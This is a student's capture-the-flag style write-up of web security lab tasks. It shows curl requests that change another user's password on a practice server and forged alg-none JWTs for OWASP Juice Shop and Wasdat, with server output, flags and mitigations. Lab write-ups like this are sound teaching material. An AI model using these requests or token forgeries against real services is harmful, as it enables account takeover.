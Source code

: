 ```yaml
---
categories:
- Schoolwork
layout: post
media_subpath: /assets/posts/2025-01-25-Cryptographic-Fails
tags:
- JWT
- Cryptographic Failures 
title: School Tasks 1 - Web Application Security - Cryptographic Fails
---
```


## Task 1A - Old Wasdat – Change user’s password by using curl
***Description:*** 

The service accepts manipulated curl-request in order to change the password of specific user via changing the parameters of the original request. Also, the bio section must be
changed, or it will produce an internal server error.

***Vulnerability: CWE-620: Unverified Password Change***

***Steps to reproduce:***

• Create an account for this service and find the profile section, where you can change the password

• Open browser’s developer-tools to capture the traffic in this page.

• In the form change bio and password.

• Therefore, copy the cURL request from the network section for further modification

• As you can see the password in the request is in SHA-1, which is considered a severely vulnerable
encryption method. “SHA-1 is widely considered obsolete due to its well-documented vulnerabilities”, (Harish, Anusha).

• Now modify the request’s, bio and password strings. New password needs to be in SHA-1 format
also.

Here is my request:

````bash 
curl -i 'http://wasdat.fi:8080/api/user' -X PUT -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64;
rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-
Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Authorization: Token eyJ0eX-
AiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQi-
O***********************************************************
**************************************************************pdHkiOjEsImZyZXNoIj
p0cnVlLCJ0eXBlIjoiYWNjZXNzIn0.l8q9iBlXgC09PcuMS2DxIzvcHfpRl4AKc6n-1wsoObI' -H 'Content-
Type: application/json;charset=utf-8' -H 'Origin: http://wasdat.fi:8080' -H 'Connection: keep-alive' -
H 'Referer: http://wasdat.fi:8080/' -H 'Cookie: language=en; welcomebanner_status=dismiss; cook-
ieconsent_status=dismiss; continue-
Code=aj4QDO4KyOqPJ7j2novp9EQ38gYVAJvlAM1wWxalND5reZRLzmXk6BbmzZRb' -H 'Priority: u=0'
--data-raw '{"user":{"email":"wasdat-victim@example.com","username":"victim","bio":"thisneed-
stobechangedalso","image":null,"password":"b9333b50f2beb8aac0f0a65eabd0e0bb3ee5b234"}}'
Bio : thisneedstobechangedalso
Password : JAMK2025 (in SHA-1 format)
````



• This was the response from the website:

![](2025-02-18-15-53-02.png)

• Now make sure that the password was changed by logging in, here is my post request data and the
response:

![](2025-02-18-15-53-46.png)

The response was legit and now it’s confirmed that the payload for the password change worked.

***Impact estimation:***

• High severity: This vulnerability has a significant impact on gaining control of other user’s account,
but I will consider it as high not critical, because attacker need to gain access to this user's authentication token to carry out the successful change. Considering also that password is using weak encryption method.

***Mitigation:***

• Implement a validation for new password change. This would be example a section for previous
password to verify the author of the request or something different authetication method.


## Task 2A: Juice Shop – Exploiting Unsigned JWT


***Description:***

Forge an essentially unsigned JWT token that impersonates the (non-existing) user jwtn3d@juice-sh.op.
“JWT is a way to determine authorization between a user and a web server, without
the web server needing to keep track of sessions.”, (Hacker Bartender, 2021). Another way to authenticate the client with the server.

***Vulnerability:*** Target supports none-algorithm.

***Steps to reproduce:***

• Start Burpsuite in order to capture the traffic between the server and the client

• Use proxy to intercept the traffic of an action while logged in as registered account (I used the password changing section for this

• You can identify the JSON Web Token in the request its in following format:

![](2025-02-18-15-57-29.png)

• Now you can use an optional JWT editor to craft the payload. In this payload you change the algorithm parameter in the header section into “none”. I found out that few editors didn’t accept to do
this, but I was able to craft it with this. (https://www.gavinjl.me/edit-jwt-online-alg-none/)

• Also, for this challenge you need to change from the data section the email address to the impersonators address (jwtn3d@juice-sh.op).

• Here is the crafted data and the payload:

![](2025-02-18-15-58-30.png)

Then this needs to be in Base64 format like in the original request to work, here is my crafted
````bash 
token:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdGF0dXMi-
OiJzdWNjZXNz*****************************************IjoiIiwiZW1haWwiOiJqd3RuM2RAan
VpY2Utc2gub3AiL-
CJwYXNzd29yZCI6IjhmMDM2MzY5YTVjZDI2NDU0OTQ5ZTU5NGZiOWUwYTJkIiwicm9sZSI6I
6
mN1*******************************************************jAyNS0wMS0zMSAxOToxNDowNi4yMzEgK
zAwO******************************MS0zMSAxO-
ToxNDowNi4yMzEgKzAwOjAwIiwiZGVsZXRlZEF0Ijpud-
WxsfSwiaWF0IjoxNzM4MzUwODU2fQ.
````
• This will be placed in the authorization and cookie sections

• Then send the request

![](2025-02-18-16-00-03.png)

***Mitigation:***

• Disabling the application accepting “none” as algorithm

• Encrypting the token with more complex method

## Task 2B: Old wasdat – JWT Exploitation

***Steps to reproduce:***

• Start with capturing the network traffic with browser’s developer’s tools (another method is to capture the packet with Burpsuite and then copy the request as “curl-command”, this one I prefer

• Capture the packet from password changing event and copy it into “cURL”

• Here is my captured packet and I modified the algorithm into “none” and my student id into that
````bash
curl -i 'http://wasdat.fi:8080/api/user' -X PUT -H 'Authorization: Token eyJ0eXAiOiJKV1QiLCJhbGci-
O**********************************
*************************************
**********************************NTI3NCwiaWRlbnRpdHkiOjIsImZyZXNoIjp0cnVlLCJ0eX
BlIjoiYWNjZXNzIn0.' -H 'Content-Type: application/json;charset=UTF-8' --data-raw
'{"user":{"email":"attacker@example.com","username":"attacker","bio":"asdasdasdasdasdasdas-
daa","image":null,"password":"b9333b5*******************5b234"}}'
````
• In this packet I used the earlier challenge's SHA-1 password hash and by executing the
command, the flag appeared into the console:
````bash
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sun, 02 Feb 2025 14:33:15 GMT
Content-Type: application/json
Content-Length: 162
Connection: keep-alive
Access-Control-Allow-Origin: http://0.0.0.0:4000
Vary: Origin
CurlFlagEarned: WasFlag4_1{PasswordSetWithCurl}
JWTFlagEarned: WasFlag4_2{AlgNoneShouldBeDead}
Access-Control-Allow-Origin: *
{
"user": {
"bio": "asdasdasdasdasdasdasdaa",
"email": "attacker@example.com",
"image": null,
"token": "",
"username": "attacker"
}
}
````
• This also confirms that the password has been changed.


## Sources

Harish, Anusha. SHA-256 vs. SHA-1: Which Is The Better Encryption?. Referenced 31.1.2025

[https://www.securew2.com/blog/what-is-sha-encryption-sha-256-vs-sha-1]

MITRE. CWE-620 - Unverified Password Change. 19.11.2024. Referenced 31.1.2025

[https://cwe.mitre.org/data/definitions/620.html]

Hacker Bartender. OWASP Juice Shop – Unsigned JWT. 2.10.2021. Referenced 31.1.2025

[https://www.hackerbartender.com/unsigned-jwt/]

Github. Whyiest – Juice Shop Write-up. 31.3.2024. Referenced 31.1.2025

[https://github.com/Whyiest/Juice-Shop-Write-up/blob/main/5-stars/unsigned_jwt.md]
